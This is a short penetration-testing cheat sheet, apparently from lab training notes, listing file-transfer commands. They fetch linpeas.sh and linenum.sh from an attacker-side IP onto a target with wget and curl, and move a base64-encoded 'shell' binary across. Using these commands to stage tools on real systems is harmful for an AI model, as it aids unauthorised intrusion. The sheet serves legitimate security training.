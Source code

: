 ## Transferring Files

| **Command** | **Description** |
| --- | --- |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with scp (requires SSH access) |
| `base64 shell -w 0` | Convert a file to base64 |
| `echo f0VMR...SNIO...InmDwU \\\\\\\\\\\\\\\| base64 -d > shell` | Convert a file from base64 back to its orig |
| `md5sum shell` | Check the file's md5sum to ensure it converted correctly |